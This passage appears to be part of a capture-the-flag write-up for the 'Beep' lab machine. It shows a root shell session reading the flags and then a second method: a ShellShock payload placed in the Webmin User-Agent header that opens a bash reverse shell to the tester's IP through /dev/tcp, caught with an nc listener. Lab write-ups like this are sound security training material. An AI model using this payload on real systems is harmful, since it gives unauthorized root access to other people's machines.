 ```

```

Obtaining the `user` and `root` flag is very simple from here on!

```
[root@beep ~]# whoami
root
[root@beep ~]# pwd
/root
[root@beep ~]# cat root.txt
[REDACTED]
[root@beep ~]# cd home
-bash: cd: home: No such file or directory
[root@beep ~]# ls
anaconda-ks.cfg  elastix-pr-2.2-1.i386.rpm  install.log  install.log.syslog  postnochroot  root.txt  webmin-1.570-1.noarch.rpm
[root@beep ~]# cd ..
[root@beep /]# ls
bin  boot  dev  etc  home  lib  lost+found  media  mnt  opt  proc  root  sbin  selinux  srv  sys  tftpboot  tmp  usr  var
[root@beep /]# cd home
[root@beep home]# ls
fanis  spamfilter
[root@beep home]# cd fanis
[root@beep fanis]# ls
user.txt
[root@beep fanis]# cat user.txt
[REDACTED]
```



## Solution 2
This attack works on web server involving port `10000`

First, visit the webmin application.

Then intercept the request in Burp and send it to Repeater. Change the User Agent field to the following string

```
() { :;}; bash -i >& /dev/tcp/<Your IP>/4444 0>&1
```
![bp-10](https://user-images.githubusercontent.com/87711310/211785051-18da65c1-47e8-42d8-856f-276fe272cf3f.png)

What that does is it exploits the ShellShock vulnerability and sends a reverse shell back to our attack machine. If you’re not familiar with ShellShock, the following image explains it really well.


![bp-12](https://user-images.githubusercontent.com/87711310/211785043-8b111ce7-3a4d-4ba5-9231-39ae83653c8d.png)

Once you've sent the request to Repeater and changed the `User-Agent` to the given string, set up a listener to receive a reverse shell.

```
nc -lvnp
```

Once you hit send to the request from the Repeaterm checking on the listener you had set up, you see a root shell

![bp-11](https://user-images.githubusercontent.com/87711310/211785058-47a3fa0d-4826-4d9c-88b1-736b8d672921.png)

You can now retrieve the flag.
